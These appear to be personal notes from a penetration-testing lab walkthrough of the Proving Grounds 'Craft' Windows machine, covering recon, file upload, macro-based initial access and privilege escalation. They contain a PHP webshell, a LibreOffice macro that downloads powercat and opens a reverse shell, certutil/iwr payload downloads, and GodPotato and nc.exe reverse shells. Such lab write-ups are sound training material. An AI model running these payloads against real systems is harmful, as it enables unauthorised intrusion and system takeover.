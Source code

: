 # NMAP

```
sudo nmap -sC -sV -Pn 192.168.247.169 -oN nmap-craft
```

![[PG/Windows/attachments/Pasted image 20250704155129.png]]

All ports
```
sudo nmap -p- -Pn 192.168.247.169 -oN nmap-craft-all-ports
```


# Website 
![[PG/Windows/attachments/Pasted image 20250704155243.png]]

File upload 
![[PG/Windows/attachments/Pasted image 20250704155303.png]]
- Email: `admin@craft.offsec`

# Gobuster

```
gobuster dir -u http://192.168.247.169 -x php -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o gobust.out
```


Navigate to upload.php and see the file ext the server expects 

![[PG/Windows/attachments/Pasted image 20250704155553.png]]

Try to upload webshell with .odt extension. 

```
<?php system($_GET['cmd']); ?>
```

![[PG/Windows/attachments/Pasted image 20250704155730.png]]
- Upload succeeded

![[PG/Windows/attachments/Pasted image 20250704155756.png]]

![[PG/Windows/attachments/Pasted image 20250704155931.png]]
Where is the file though...

Creds Given 

```
thecybergeek / ABasedHacker!
```

Need to install libreoffice and create a macro file to upload odt file 

[Blog post](https://medium.com/@Dpsypher/proving-grounds-practice-craft-4a62baf140cc) for creating these malicious macro docs 
Test macro code 
```
Shell("cmd /c powershell iwr http://192.168.45.152/")
```
Test macro 
![[PG/Windows/attachments/Pasted image 20250704211302.png]]

Macro with rev shell

```
Shell("cmd /c powershell IEX (New-Object System.Net.Webclient).DownloadString('http://192.168.45.152/powercat.ps1');powercat -c 192.168.45.152 -p 135 -e powershell")
```

![[PG/Windows/attachments/Pasted image 20250704211603.png]]

![[PG/Windows/attachments/Pasted image 20250704211844.png]]

Caught rev shell 

![[PG/Windows/attachments/Pasted image 20250704211901.png]]

# Enum for Priv Esc 

![[PG/Windows/attachments/Pasted image 20250704212155.png]]

## Winpeas

There's an apache user. We can write to C:\xampp\htdocs 

Upload a reverse shell to try to laterally move to apache user who may have better permissions. 

Pop this rev shell in the dir. 

```
iwr http://192.168.45.152:1234/rev-shell.php -outfile rev-shell.php
```

![[PG/Windows/attachments/Pasted image 20250704235144.png]]

I'm apache :) 

![[PG/Windows/attachments/Pasted image 20250704235212.png]]

And I have **SeImpersonatePrivilege**

![[PG/Windows/attachments/Pasted image 20250704235250.png]]

# Potato 🥔

Systeminfo 

![[PG/Windows/attachments/Pasted image 20250704235514.png]]
- Windows Server 2019 Standard, x64 

Rogue Potato may work. 

```
./roguepotato.exe -r 192.168.45.152 -e "nc.exe 192.168.45.152 3001 -e cmd.exe" -l 9999
```

it did not :) 

It's [GodPotato](https://github.com/BeichenDream/GodPotato/releases?source=post_page-----4a62baf140cc---------------------------------------)

```
reg query "HKEY_LOCAL_MACHINE\SOFTWARE\Microsoft\NET Framework Setup\NDP"
```
![[PG/Windows/attachments/Pasted image 20250705001717.png]]

Transfer to box

```
certutil -urlcache -split -f http://192.168.45.152:4444/GodPotato-NET4.exe
```

![[PG/Windows/attachments/Pasted image 20250705002022.png]]

Test 

```
.\GodPotato-NET4.exe -cmd "whoami"
```

It works 

![[PG/Windows/attachments/Pasted image 20250705002113.png]]

Rev shell time

```
.\GodPotato-NET4.exe -cmd ".\nc.exe 192.168.45.152 3001  -e c:\windows\system32\cmd.exe"
```

![[PG/Windows/attachments/Pasted image 20250705002318.png]]

Catch rev shell 

![[PG/Windows/attachments/Pasted image 20250705002342.png]]

Ref: https://medium.com/@Dpsypher/proving-grounds-practice-craft-4a62baf140cc